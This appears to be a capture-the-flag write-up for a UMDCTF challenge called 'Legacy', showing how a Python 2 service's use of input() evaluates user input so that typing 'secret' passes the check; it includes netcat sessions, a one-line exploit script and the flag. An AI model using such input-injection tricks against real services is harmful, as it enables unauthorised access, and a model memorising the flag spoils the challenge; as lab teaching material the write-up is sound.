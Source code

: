# Legacy

## Challenge

Connecting to the challenge prompts us to guess a number.

```
$ nc 0.cloud.chals.io 28964
I bet you can't guess my *secret* number!
I'll give you hint, its between 0 and 0,1000000000000000514!
```
Entering 1 or 2 guesses seems to have no affect.

Once a third guess is entered, we get a response:

```
$ nc 0.cloud.chals.io 28964
I bet you can't guess my *secret* number!
I'll give you hint, its between 0 and 0,1000000000000000514!
1111111111
111111111111111
1111111111111
3 chances left! 
2 chances left! 
1 chances left! 
Deprecated shmeprecated!
Python 2 will never die!
```

This is probably due to buffering, the intended affect is probably that the responses are interleaved with the guesses.
This has no affect on the challenge.

## Solution

If we enter something that is not a number, such as just a newline, we get the following response:

```
$ nc 0.cloud.chals.io 28964
I bet you can't guess my *secret* number!
I'll give you hint, its between 0 and 0,1000000000000000514!

3 chances left! 
Traceback (most recent call last):
  File "/home/ctf/legacy.py", line 15, in <module>
    if (input(str(3-i) + " chances left! \n") == secret):
  File "<string>", line 0
    
    ^
SyntaxError: unexpected EOF while parsing
```

This seems to confirm that the challenge is using the `input` function in Python2.

This function is dangerous as it evaluates the input rather than treating it as a string.
For example, we can make our input equal `secret` simply by typing the word "secret" as our response:

```
$ nc 0.cloud.chals.io 28964
I bet you can't guess my *secret* number!
I'll give you hint, its between 0 and 0,1000000000000000514!
secret
3 chances left! 
No way!
UMDCTF{W3_H8_p7th0n2}
```

## Exploit

```bash
#!/usr/bin/bash
echo "secret" | nc 0.cloud.chals.io 28964
```

## Flag

```
UMDCTF{W3_H8_p7th0n2}
```
